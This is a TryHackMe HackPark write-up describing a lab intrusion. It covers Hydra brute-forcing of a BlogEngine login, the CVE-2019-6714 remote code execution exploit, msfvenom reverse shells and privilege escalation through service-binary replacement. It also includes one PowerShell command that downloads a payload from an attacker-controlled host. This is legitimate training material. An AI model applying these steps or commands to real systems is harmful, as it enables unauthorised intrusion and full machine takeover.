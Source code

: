 ```yaml
---
title: HackPark Writeup | TryHackMe
date: 2022-01-20 00:00:00 +/-TTTT
categories: [Writeup, TryHackMe]
tags: [writeup, tryhackme, windows, cve-2019-6714, rce, winpeas]
author:
  name: v3r4x
---
```


## Overview

This is my writeup for the HackPark room on TryHackMe.  This room involves bruteforcing a site's login with Hydra, identifying and using a public exploit to gain access and then escalate your privileges.

This is a intermediate room so if you are more of a beginner, then this may be to challenging.  If you are new to Windows exploitation in general, I would recommend attempting the [Steel Mountain](/posts/steel-mountain-writeup-tryhackme/index.html) or [Alfred](/posts/alfred-writeup-tryhackme/index.html) rooms.

## How to Access

I compelted this room on TryHackMe.  You can access it [here](https://tryhackme.com/room/hackpark).

## Steps

#### Information Gathering

As always, I begin with an nmap scan:

```
$ nmap -sC -sV -oN scans/initial -Pn 10.10.237.113
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-24 00:01 BST
Nmap scan report for 10.10.237.113
Host is up (0.044s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=hackpark
| Not valid before: 2021-05-22T22:49:47
|_Not valid after:  2021-11-21T22:49:47
|_ssl-date: 2021-05-23T23:01:42+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.14 seconds
```

As shown above, there is a website running on port 80.  The main page shows a picture of **pennywise** (the 1990 version):

![mainpage](/assets/posts/20220120/1_mainpage.png)

As I inspected the website, `gobuster` detected a login page:

![gobuster](/assets/posts/20220120/2_gobuster.png)

Navigating to this page shows a generic login form for BlogEngine:

![login form](/assets/posts/20220120/3_login_form.png)

#### Using Hydra to Bruteforce a Login

After trying a few default credential combinations, I booted up BurpSuite to intersept the requests as I log in:

![burpsuite](/assets/posts/20220120/4_burp_suite.png)

I then used Hydra to bruteforce the password for the admin user:

![hydra](/assets/posts/20220120/5_hydra.png)

#### Gaining Access

After I logged in, I found that the site is running Blog Engine version **3.3.6**.  Using searchsploit, I found that this version is vulnerable to remote code injection (RCE):

![searchsploit](/assets/posts/20220120/6_searchsploit.png)

I then copied this exploit (**CVE-2019-6714**) to my working directory and changed the listening IP address.  I then navigated to `http://<machine ip>/admin/app/editor/editpost.cshtml` and uploaded the file.  To do this, I created a Python HTTP server in the directory where the exploit was stored:

![upload](/assets/posts/20220120/7_upload.png)

Next, I nagivated to the base URL for the blog and overrided the theme `http://10.10.108.108/?theme=../../App_Data/files`.  This triggers the vulnerability.

I used netcat to catch the callback:

![netcat](/assets/posts/20220120/8_netcat_callback.png)

Running `whoami` on the machine shows that I am logged in as `iis apppool\blog`.  

#### Compromise the Machine

Even though I have gained access to the machine, the current shell is quite unstable.  So let's update the shell.  I did this by creating a payload through `msfvenom`:

![creating payload](/assets/posts/20220120/9_creating_payload.png)

I then uploaded this file to the system using powershell:

![uploading payload](/assets/posts/20220120/10_uploading_payload.png)

I also loaded up `msfconsole` and ran `use exploit/multi/handler` to catch the callback:

![upgraded shell](/assets/posts/20220120/11_updated_shell.png)

I then ran `sysinfo` and discovered that this system is running the **Windows 2012 R2 (6.3 Build 9600)** operating system.

![sysinfo](/assets/posts/20220120/12_sysinfo.png)

#### Privilege Escalation with Metasploit

At this point, you have to perform more enumeration on the machine in order to find points of vulnerability.  Although I managed to find the vulnerable binary, I was unable to find the abnormal service without looking at other writeups.  The abnormal service is **WindowsScheduler**.

I found the vulnerable binary by checking `C:\Program Files (x86)\SystemScheduler`:

![vulnerable binary](/assets/posts/20220120/13_vulnerable_binary.png)

Using this information, I created another payload using `msfvenom` and called it `Message.exe`:

![message.exe](/assets/posts/20220120/14_message_exe.png)

I then uploaded it using the `upload` command:

![uploading message.exe](/assets/posts/20220120/15_uploading_message_exe.png)

I then had to replace the binary which was already on the system:

![replacing binary](/assets/posts/20220120/16_replacing_binary.png)

Finally, I set up netcat once again to catch the callback when the new file was executed:

![netcat callback](/assets/posts/20220120/17_netcat_callback.png)

Now, I am logged in as the admin user with full privileges.  So, I then retrieved both flags (user.txt and root.txt):

![user.txt](/assets/posts/20220120/18_user_flag.png)

![root.txt](/assets/posts/20220120/19_root_flag.png)

#### Privilege Escalation without Metasploit

It is entirely possible to escalate your privileges without metasploit.  I did this by creating a similar payload using `msfvenom`:

![new payload](/assets/posts/20220120/20_new_payload.png)

I then powershell to upload the new payload to the `C:\Windows\Temp` directory:

```
C:\Windows\Temp> powershell -c "Invoke-WebRequest -Uri 'http://10.9.150.161:80/shell.exe' -OutFile shell.exe"
```

As before, I created a Python HTTP server where the new payload was stored.  

To enumerate the machine, I then uploaded winPEAS (download [here](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS/winPEASbat)).

Once uploaded, I executed winPEAS and found that this system was originally installed on **8/3/2019, 10:43:23 AM**.

And that's it!

## Summary and Feedback

This was a very challenging room, especially as I am fairly new to Windows exploitation.  I had quite a lot of difficulty actually finding the answer to some of the tasks (even with hints).  I would definitely recommend attempting other rooms, particularly if you're new to Windows exploitation.
